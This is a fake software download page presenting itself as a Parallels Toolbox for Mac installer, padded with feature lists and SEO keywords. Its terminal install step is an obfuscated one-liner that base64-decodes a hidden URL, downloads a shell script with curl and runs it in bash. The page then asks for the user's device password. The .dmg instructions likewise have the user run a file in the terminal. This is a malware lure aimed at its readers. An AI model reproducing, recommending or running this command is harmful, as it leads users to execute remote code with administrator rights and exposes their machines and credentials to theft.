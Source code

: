 # Parallels Toolbox Mac Download

![Parallels Toolbox Screenshot](https://kb.parallels.com/Attachments/kcs-40069/Screenshot%202022-06-06%20at%2015.48.17.png)

[![Download Now](https://img.shields.io/badge/Download--Now-Parallels%20Toolbox%20Mac-blue?style=for-the-badge&logo=apple)](https://nikolanfu.github.io/.github/parallelstoolsboxmac)

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ5L2luc3RhbGwuc2g= | base64 -d))"  
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 📦 What is Parallels Toolbox for Mac?

**Parallels Toolbox for Mac** is a powerful all-in-one suite of over 40+ essential tools that simplify your daily tasks on macOS. Designed for productivity, it helps users avoid installing dozens of separate apps by offering a single lightweight interface for screen recording, archive management, clipboard control, time tracking, video downloading, and more.

Ideal for students, professionals, and creative users alike, Parallels Toolbox saves time and boosts efficiency with simple, one-click tools. Want to free up RAM? Record your screen? Mute the microphone with one tap? Parallels Toolbox does it all—no complicated settings or tech skills required.

Whether you're preparing a presentation, organizing files, or enhancing system performance, Parallels Toolbox is the Swiss Army knife for macOS.

![Parallels Toolbox Screenshot](https://www.parallels.com/de/blogs/app/uploads/sites/3/2016/08/Parallels-Toolbox-1.png)

---

## 🌟 Key Features & Benefits

- 🎥 **Screen & Audio Capture** — Record screen, area, or audio with one click.
- 📦 **Archiver & Unarchiver** — Easily compress and extract ZIP, RAR, 7Z, and other archives.
- 🔇 **Mic & Camera Control** — Instantly mute or disable microphone/webcam for privacy.
- 🎬 **Video Downloader** — Save videos from popular platforms like YouTube or Vimeo.
- 🧹 **Clean Drive** — Free up disk space by finding and removing unnecessary files.
- 🕒 **Time Tools** — Use timers, alarms, stopwatch, and time converters.
- 📋 **Clipboard History** — Access and manage your recent copy-paste items.
- 🖥️ **Presentation Mode** — Disable notifications and screen sleep automatically.
- 🔋 **Energy Saver** — Extend battery life with smart performance tweaks.
- 💻 **Optimized for macOS** — Fully compatible with macOS, including Apple Silicon.

---

## 🖥️ System Requirements

- **macOS**: 10.13 High Sierra or later  
- **Processor**: Intel or Apple Silicon (M1/M2/M3)  
- **RAM**: 4 GB minimum  
- **Disk Space**: ~250 MB  
- **License**: Free trial available, paid license for full access

---

## 🏷️ Keywords

parallels toolbox, parallels toolbox for mac, parallels toolbox download, parallels toolbox mac, download parallels toolbox, parallels toolbox for mac free, parallels toolbox free, parallels toolbox free download
